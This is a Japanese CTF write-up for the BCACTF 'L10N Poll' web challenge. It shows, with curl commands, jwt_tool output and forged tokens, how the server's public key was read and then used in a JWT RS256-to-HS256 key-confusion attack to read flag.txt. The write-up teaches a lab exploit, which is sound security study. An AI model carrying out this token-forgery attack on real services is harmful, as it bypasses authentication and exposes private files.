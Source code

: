 # L10N Poll:webex:300pts
I made the ultimate polling service! Il supporte tout les langues. Это потому, что на сайте используются передовые технологии локализации. ¿Puedes leer esto? أنا متأكد من أنني لا أستطيع. 立即开始！  
(The flag is stored in `flag.txt`.)  
[package.json](package.json)  
[server.js](server.js)  
[http://web.bcactf.com:49159/](http://web.bcactf.com:49159/)  
  
Hint 1 of 3  
How is the localisation/localization implemented?  
Hint 2 of 3  
Check out RFC 7519 perhaps  
Hint 3 of 3  
Take a close look at the package.json...  

# Solution
サイトにアクセスすると言語を指定できるアンケートのようだ。  
[site.png](site/site.png)  
配布されたソースを見るとcookieのJWTに言語を保存しているようだ。  
server.jsの以下の部分が気にかかる。  
```JavaScript
~~
const languageRegex = /^[a-z]+$/;
~~
router.post("/localization-language", async ctx => {
    const language = ctx.request.body?.language;
    if (typeof language === "string") {
        if (language.match(languageRegex)) {
            ctx.cookies.set("lion-token", generateToken(language));
        } else {
            ctx.throw(400, msgs[Math.floor(Math.random() * msgs.length)]);
        }
    } else {
        ctx.throw(400, "no language");
    }
    ctx.redirect("/");
});
~~
```
アルファベット小文字の制限はあるが、任意のものをJWTのlanguageに設定できる。  
このlanguageをファイル名としたファイルが読み取られているようなので`flag.txt`にすればよいが`.`が使えない。  
そこで以下に注目する。  
```JavaScript
~~~
const publicKey = readFileSync(join(__dirname, "key"), "utf8");
const msgs = readFileSync(join(__dirname, "errormessages"), "utf8").split("\n").filter(s => s.length > 0);
~~~
```
公開鍵とエラーメッセージファイルを読み取れるようだ。  
ここで公開鍵でJWTを改竄できる脆弱性を思い出す。  
まずはkeyを以下のように取得する。  
```bash
$ curl -X POST http://web.bcactf.com:49159/localization-language -d "language=key" -v
~~~
< HTTP/1.1 302 Found
< Set-Cookie: lion-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzYwNTQzMH0.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw; path=/; httponly
~~~
Redirecting to <a href="/">/</a>.
$ curl -X GET http://web.bcactf.com:49159/localisation-file --cookie "lion-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzYwNTQzMH0.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw"
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCRaHtUpvSkcf2KCwXTiX48Tjxf
bUVFn7YimqGPQbwTnE0WfR5SxLK/DH0os9jCCeb7pJ08AbHFBzQNUfbg47xI3aJh
PMdjL/w3iqfc56C7lt59u4TeOYc7kguph/GTYDPDZkgtbkFJmbkbg9MvV723U1PW
M7N2P4b2Xf3p7ZtaewIDAQAB
-----END PUBLIC KEY-----
```
こうして公開鍵を取得することに成功する。  
得た公開鍵はkeyに保存しておく。  
次に[The JSON Web Token Toolkit v2](https://github.com/ticarpi/jwt_tool)を用いて以下のようにJWTの改竄を行う。  
```bash
$ git clone https://github.com/ticarpi/jwt_tool
~~~
$ cd jwt_tool/
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImtleSIsImlhdCI6MTYyMzYwNTQzMH0.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw -T
~~~
Token header values:
[1] typ = "JWT"
[2] alg = "RS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] language = "key"
[2] iat = 1623605430    ==> TIMESTAMP = 2021-06-14 02:30:30 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of language is: key
Please enter new value and hit ENTER
> flag.txt
[1] language = "flag.txt"
[2] iat = 1623605430    ==> TIMESTAMP = 2021-06-14 02:30:30 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_a32fb33e317df9c60a5eb5f4e3d00dcc - Tampered token:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw
$ python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.jIP2IiDGxBNaEslII5zNaSiXV-NfJZldpAYiRdpK7pKeuEmaqo1kHv4z-W8YIfo1NLMyh1-LP8HM3dGAdUbmGcISKZLwdETKRrGRMR8EB5-k3ndzUqBT7nNUNDAa1bGKdI5XwI8VfRRm8mtbXNMGz73RzN64iS2To8oC8yLI3dw -X k -pk ../key
        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.3                \______|             @ticarpi

Original JWT:

File loaded: ../key
jwttool_d2cefa5ad18fe82fe82426d0466891e6 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.Hbvl5NSDSsELfeCDs6ZoWiiJsP3O8IHd4G4WWnvULDk
```
こうして改竄されたJWTを得ることができた。  
これを用いて以下のようにリクエストを送る。  
```bash
$ curl -X GET http://web.bcactf.com:49159/localisation-file --cookie "lion-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsYW5ndWFnZSI6ImZsYWcudHh0IiwiaWF0IjoxNjIzNjA1NDMwfQ.Hbvl5NSDSsELfeCDs6ZoWiiJsP
3O8IHd4G4WWnvULDk"
bcactf{je_suis_desole_jai_utilise_google_translate_beaucoup_dfW78ertjk}
```
flagが手に入った。  

## bcactf{je_suis_desole_jai_utilise_google_translate_beaucoup_dfW78ertjk}